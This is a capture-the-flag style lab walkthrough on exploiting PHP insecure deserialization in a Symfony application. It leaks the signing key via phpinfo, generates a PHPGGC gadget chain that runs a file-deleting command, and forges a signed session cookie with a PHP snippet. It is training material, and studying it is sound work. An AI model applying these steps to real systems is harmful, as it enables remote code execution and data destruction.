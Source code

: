 Title: Exploiting PHP deserialization with a pre-built gadget chain
Level: PRACTITIONER
Desc:  This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains.
To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter 


# Theory
Most languages that frequently suffer from insecure deserialization vulnerabilities have equivalent proof-of-concept tools. For example, for PHP-based sites you can use "PHP Generic Gadget Chains" (PHPGGC). 

# Walkthrough:
The ookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash.
<img width="1561" height="652" alt="image" src="https://github.com/user-attachments/assets/2c814989-7016-40bd-8dce-1e0e8cc1066c" />

Base64 decode the token from cookie and I can see well-known PHP object:
<img width="1101" height="249" alt="image" src="https://github.com/user-attachments/assets/e7444bbe-c1a0-4162-9d54-af203ba76093" />

Let's try to modify PHP object and send it with cookie with the same MAC signature.

After sending modified object I get an error, but in the error I can see some interesting messages. 
<img width="1408" height="683" alt="image" src="https://github.com/user-attachments/assets/2af6afe9-cf9a-4f7e-bef3-3566160fe888" />
From the error message I can see, that application use Symfony 4.3.6

In the source code of site, in the comment of developer I can find resource: `/cgi-bin/phpinfo.php`
<img width="1041" height="773" alt="image" src="https://github.com/user-attachments/assets/29bd7d74-2d4c-4e06-bc3a-79ebdde1b1d6" />

After requesting that path I can get key:
<img width="942" height="147" alt="image" src="https://github.com/user-attachments/assets/1102eb14-b1e4-4fd9-8862-0e197bae9cdb" />
`0dzx474u31ssoojwb3gmp9cnwvcap9v4`

INTRODUCTING NEW TOOL - `PHPGGC`
Running: `./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`

<img width="764" height="275" alt="image" src="https://github.com/user-attachments/assets/d46f9bdc-fe6e-4fc0-857b-a5d3ab1703ba" />

Now let's craft cookie with our malicious payload and sign it with exfiltrated key:

```
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
After sending this as a cookie, we have our RCE.


